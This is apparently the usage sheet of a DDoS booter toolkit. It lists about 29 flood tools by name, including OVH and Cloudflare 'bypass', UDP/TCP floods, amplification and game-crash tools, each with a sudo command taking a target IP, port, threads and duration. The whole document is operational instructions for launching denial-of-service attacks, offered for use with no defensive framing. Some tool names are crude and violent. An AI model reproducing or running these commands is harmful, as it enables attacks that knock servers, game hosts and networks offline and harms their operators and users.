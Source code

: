 How to use :

OVH-AMP : ./OVH-AMP %ip% %port%

X-STD : sudo ./X-STD %ip% %port%

SSA : sudo ./ssa %ip%

ETC : sudo ./etc %ip% %port%

OVH : sudo ./ovh %ip% %port% 9999 0 9999

OVH-V2 : sudo ./ovhbypass2 %ip% %port% 999999 udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 999999 ack

HEX : sudo ./HEX OVH %ip% %port% 999999

NUKE-BYPASS : sudo ./HiperOVH %ip% %port%

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 999999

ETHERA : sudo ./ETHERA %ip% %port%

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 999999

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 999999

R4P3 : sudo ./gre %ip% 10 -1 999999

NFO : sudo ./NFO %ip% %port% 10 -1 999999

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 999999

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% 999999

NULL : sudo perl UDP_NULL.pl %ip% 999999

PATH : sudo perl UDP_BPSS.pl %ip% %port% 5500 9999

UDP-MIX : sudo perl UDP_MIX.pl %ip% 9999

TCP_NUKE : sudo perl TCP_VOX.pl %ip% 9999

OVH-RAPE : sudo perl OVHBYPASS.pl %ip% %port% 9999

GAME : sudo ./GAME-CRASH %ip% %port%

AMP : sudo perl amp.pl %ip% %port% 5500 9999

Twiks : sudo ./Twiks %ip% %port%

35 : sudo perl 35.pl %ip% %port% 1000 300

korkut : sudo ./korkut2 %ip% %port% 10 -1 9999

NFOLAGV2 : sudo ./NFOLag %ip% %port% 1025 0
